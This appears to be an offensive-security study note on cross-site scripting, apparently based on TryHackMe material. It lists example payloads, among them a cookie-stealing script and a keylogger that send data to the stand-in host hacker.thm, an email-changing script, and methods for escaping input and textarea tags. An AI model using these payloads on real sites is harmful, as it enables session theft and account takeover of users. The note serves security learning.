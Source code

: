 ```yaml
---
title: Cross-site Scripting
---
```


_Cross-Site Scripting_, is an injection attack where malicious JavaScript gets injected into a web application with the intention of being executed by other users.

Cross-site scripting vulnerabilities are extremely common:

- [XSS found in Shopify](https://hackerone.com/reports/415484)
- [$7,500 for XSS found in Steam chat](https://hackerone.com/reports/409850)
- [$2,500 for XSS in HackerOne](https://hackerone.com/reports/449351)
- [XSS found in Infogram](https://hackerone.com/reports/283825)

## XSS payloads

The XSS [payload](/knowledge/OffSec/glossary/payload.md) is the JavaScript code we wish to be executed on the targets computer.

There are two parts to the payload:

- _The intention_ - it's is what you wish the JavaScript to actually do
- _The modification_ - it's the changes to the code we need to make it execute as every scenario is different

## Examples of XSS intentions

- Proof of Concept - the simplest of payloads where all you want to do is demonstrate that you can achieve XSS on a website
  - `<script>alert('XSS');</script>`
- Stealing user session from Cookies
  - `<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>`
- Key logging
  - `<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>`
- Targeted at the business logic
  - a lot more specific than the examples above
  - calling a particular network resource or a JS fn, e.g. `user.changeEmail()`
  - `<script>user.changeEmail('attacker@hacker.thm');</script>`

## Types of XSS

- [reflected-xss](/knowledge/OffSec/pentesting/reflected-xss.md)
- [stored-xss](/knowledge/OffSec/pentesting/stored-xss.md)
- [dom-based-xss](/knowledge/OffSec/pentesting/dom-based-xss.md)
- [blind-xss](/knowledge/OffSec/pentesting/blind-xss.md)

## Escaping HTML

Viewing the page source, you can see your name reflected inside the value attribute of the input tag:

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/2f6b23615d6970aab8e1fb2a8d352e9f.png)

Let's say, we have a form that takes a name and renders it inside the `input` tag:

```html
<div class="text-center">
  <h2>Hello, <input value="Adam" /></h2>
</div>
```

The JavaScript payload can't run it from inside the `input` tag. We need to escape the `input` tag first so the payload can run properly. We can do this with the following payload:

```
"><script>alert('THM');</script>
```

The important part of the payload is the `">` which closes the value parameter and then closes the input tag.

This now closes the input tag properly and allows the JavaScript payload to run:

```html
<div class="text-center">
  <h2>
    Hello, <input value="" />
    <script>
      alert("THM");
    </script>
    ">
  </h2>
</div>
```

In case of `textarea`, escaping looks a bit different. We're closing the `textarea` tag first:

```html
<!-- payload -->
</textarea><script>alert("THM");</script>
```

```html
<div class="text-center">
	<h2>Hello, <textarea></textarea><script>alert("THM");</script></textarea></h2>
</div>
```

To get around the filters, we can also take advantage of the additional attributes of the tags, such as the `onload` event of an `img` tag. `onload` executes the code of your choosing once the image specified in the `src` attribute has loaded onto the web page:

```
/images/cat.jpg" onload="alert('THM');` 
```
